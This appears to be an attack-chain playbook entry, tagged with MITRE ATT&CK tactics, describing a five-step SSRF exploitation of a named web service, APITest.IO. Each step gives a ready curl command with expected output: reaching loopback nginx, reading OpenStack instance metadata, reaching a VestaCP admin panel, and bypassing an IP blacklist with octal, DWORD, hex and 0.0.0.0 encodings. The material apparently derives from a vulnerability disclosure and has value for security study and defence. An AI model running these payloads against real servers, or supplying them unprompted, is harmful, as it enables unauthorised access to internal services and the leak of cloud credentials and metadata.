

---
tags:
  - ssrf
  - internal-access
  - metadata-leak
  - bypass
  - openstack
  - vestacp
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
  - '[[Reconnaissance]]'
verified: false
platforms:
  - Web
  - Linux
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Identify-SSRF-Vulnerable-Endpoint]]'
  - '[[procedures/Exploit-SSRF-to-Access-Local-Nginx]]'
  - '[[procedures/Exploit-SSRF-to-Retrieve-OpenStack-Metadata]]'
  - '[[procedures/Exploit-SSRF-to-Access-VestaCP-Admin-Panel]]'
  - '[[procedures/Bypass-SSRF-Fix-Using-IP-Encodings]]'
step_count: 5
techniques:
  - '[[Exploit Public-Facing Application]]'
updated_at: '2025-12-14T04:08:48.473Z'
description: >-
  A multi-step SSRF attack exploiting an unvalidated URL parameter in a web form
  to access internal loopback services, cloud metadata, admin panels, and bypass
  mitigations using IP encodings.
skill_level: intermediate
impact_level: high
id: a1bea96f-2bb2-4b0e-b4b6-7b96a57f9c59
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Reconnaissance]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
---
# SSRF Exploitation to Access Internal Services and Metadata in APITest.IO

Multi-stage attack chain demonstrating SSRF exploitation in the APITest.IO web form to gain access to internal server resources, including loopback services, OpenStack instance metadata, VestaCP admin panel, and bypassing initial fixes via IP encoding techniques. This leads to exposure of sensitive server details, instance IDs, IP addresses, and potential reconfiguration opportunities.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 5 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Browser or [[commands/curl-ssrf-test]]

### Target Environment

- Web platform with exposed form endpoint
- Internal services on loopback (127.0.0.1), metadata service (169.254.169.254), ports like 8081
- No authentication required for the form

### Initial Access Requirements

- Public internet access to https://www.apitest.io/request
- No prior credentials needed
- Ability to submit POST requests to the form

## Detailed Attack Procedures

### Step 1: Identify Vulnerable Endpoint
procedure: [[procedures/Identify-SSRF-Vulnerable-Endpoint]]

**Objective**: Locate and confirm the SSRF vulnerability in the URL parameter of the web form.

**Instructions**: Submit a test URL to the form at https://www.apitest.io/request using [[commands/curl-identify-ssrf]] to check if arbitrary URLs are fetched without validation.

```bash
curl -X POST -d 'url=http://example.com' https://www.apitest.io/request
```

**Expected Output**: The response echoes or fetches content from the provided URL, confirming lack of validation.

**Success Indicators**:
- Form processes external URLs
- No blocking on arbitrary inputs

### Step 2: Access Local Nginx via Loopback
procedure: [[procedures/Exploit-SSRF-to-Access-Local-Nginx]]

**Objective**: Use SSRF to fetch content from the internal nginx server on loopback.

**Instructions**: Submit a loopback URL using [[commands/curl-ssrf-loopback-nginx]] to retrieve the nginx welcome page.

```bash
curl -X POST -d 'url=http://127.0.0.1/' https://www.apitest.io/request
```

Alternatively, use decimal encoding: `url=http://0x7f.1/`.

**Expected Output**: Nginx welcome page indicating successful installation on the internal server.

**Success Indicators**:
- Internal HTML content returned
- Confirmation of nginx presence

### Step 3: Retrieve OpenStack Metadata
procedure: [[procedures/Exploit-SSRF-to-Retrieve-OpenStack-Metadata]]

**Objective**: Access sensitive instance metadata via the OpenStack metadata service.

**Instructions**: Target the metadata endpoint using [[commands/curl-ssrf-openstack-metadata]].

```bash
curl -X POST -d 'url=http://169.254.169.254/meta-data' https://www.apitest.io/request
```

**Expected Output**: Directory listing with instance-id, mac, local-ipv4, public-ipv4, network_config, SUBID, ipv6-addr, ipv6-prefix.

**Success Indicators**:
- Metadata fields exposed
- Instance details leaked

### Step 4: Access VestaCP Admin Panel
procedure: [[procedures/Exploit-SSRF-to-Access-VestaCP-Admin-Panel]]

**Objective**: Reach the internal VestaCP admin interface on port 8081.

**Instructions**: Submit the admin panel URL using [[commands/curl-ssrf-vestacp-admin]] to confirm access.

```bash
curl -X POST -d 'url=http://127.0.0.1:8081/' https://www.apitest.io/request
```

**Expected Output**: VestaCP powered by message from the admin panel.

**Success Indicators**:
- Admin interface content retrieved
- Potential for further exploitation noted

### Step 5: Bypass Fix Using IP Encodings
procedure: [[procedures/Bypass-SSRF-Fix-Using-IP-Encodings]]

**Objective**: Circumvent blacklisting of common internal IPs by using alternative encodings to access Apache server-status.

**Instructions**: After an initial fix, test bypasses with encoded IPs using [[commands/curl-ssrf-ip-bypass-octal]], [[commands/curl-ssrf-ip-bypass-dword]], etc.

```bash
curl -X POST -d 'url=http://0177.0000000000001:8081/server-status' https://www.apitest.io/request
```

Other variants: `http://2130706433:8081/server-status` (DWORD), `http://0x7f000001:8081/server-status` (hex), `http://0.0.0.0:8081/server-status` (ANY_IP).

**Expected Output**: Apache server-status page with version: Apache/2.2.15 (Unix) DAV/2 mod_fcgid/2.3.9 PHP/5.4.36 mod_ssl/2.2.15 OpenSSL/1.0.0-fips.

**Success Indicators**:
- Bypass successful
- Server version and modules exposed

## Attack Chain Summary

### Key Achievements

1. Confirmed SSRF in URL parameter allowing internal fetches
2. Accessed nginx, OpenStack metadata, and VestaCP admin
3. Bypassed mitigations to reveal Apache details

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Reconnaissance]]

---
*Last updated: 2023-10-01T00:00:00Z*
